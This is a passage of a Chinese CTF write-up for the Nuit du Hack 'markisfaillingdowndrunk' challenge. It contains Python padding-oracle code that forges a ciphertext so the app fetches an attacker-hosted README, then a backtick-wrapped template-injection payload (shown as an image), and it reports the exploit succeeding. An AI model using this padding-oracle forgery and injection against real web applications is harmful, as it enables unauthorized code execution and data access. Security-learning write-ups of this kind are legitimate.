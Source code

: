 ```
        '2742f463b4d20f89468beb7e80e5a2c5',
        'fb8343033ec2a22120a67322bd25899b',
        '6fb80b9667fcbc9c591e285170992100'
        ]
ans   =[
        "http://xxx.xxx.x",
        "x.xxx:8000/xxxxx",
        "xxxxxxxxxxxxxxxx",
        "/master/READMEx02x02"
       ]
tmp_ans=[""]*5
tmp_ans[4]=cipher[4]
tmp_ans[3]=cipher[3]
tmp_middle=middle[2].decode('hex')
tmp_ans[2]=xor(ans[2],tmp_middle).encode("hex")
tmp_middle=padding_oracle(N,tmp_ans[2].decode("hex"))
print tmp_middle.encode('hex')   #"9d41e1434f05be3bea284b8d2eb8928b".decode('hex')
tmp_ans[1]=xor(ans[1],tmp_middle).encode("hex")
tmp_middle=padding_oracle(N,tmp_ans[1].decode("hex"))
print tmp_middle.encode('hex')   #"c05b49fef1d14b17aa0dd98a591ea57f".decode('hex')
tmp_ans[0]=xor(ans[0],tmp_middle).encode("hex")
view="".join(i for i in tmp_ans)
print view
#a82f3d8ecbfe64269a39f7bb6f2e8b4bae6fd0767b3f860bda1864f556c0eaf383fb3b7b46bada5958de0b5ac55df1e340d56ae51399ceb30b5b69153ddc230219e3f662023665e8885c90867b8c3a02
```

通过上述代码,我得到我的这个链接 http://xxx.xxx.xx.xxx:8000/xxxxxxxxxxxxxxxxxxxxx/master/README 对应的密文是

a82f3d8ecbfe64269a39f7bb6f2e8b4bae6fd0767b3f860bda1864f556c0eaf383fb3b7b46bada5958de0b5ac55df1e340d56ae51399ceb30b5b69153ddc230219e3f662023665e8885c90867b8c3a02

然后修改我的网站的README的内容为 

[![](https://p2.ssl.qhimg.com/t01113e809a3d4eb248.png)](https://p2.ssl.qhimg.com/t01113e809a3d4eb248.png)

注意下我的这个内容外面包了两个反撇号，因为我们刚才说了，他会读取链接的内容，然后进行markdown转换，然后在进行模板渲染。markdown，转换在先，很多我们需要用的符号在markdown里面都有特殊语义会被转换，加上这两个反撇号就好了。 

然后尝试访问

[http://markisfaillingdowndrunk.quals.nuitduhack.com/view/a82f3d8ecbfe64269a39f7bb6f2e8b4bae6fd0767b3f860bda1864f556c0eaf383fb3b7b46bada5958de0b5ac55df1e340d56ae51399ceb30b5b69153ddc230219e3f662023665e8885c90867b8c3a02](http://markisfaillingdowndrunk.quals.nuitduhack.com/view/a82f3d8ecbfe64269a39f7bb6f2e8b4bae6fd0767b3f860bda1864f556c0eaf383fb3b7b46bada5958de0b5ac55df1e340d56ae51399ceb30b5b69153ddc230219e3f662023665e8885c90867b8c3a02) 

结果如下： 

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01cf8f79fd7aea2a3f.png)

成功了,  
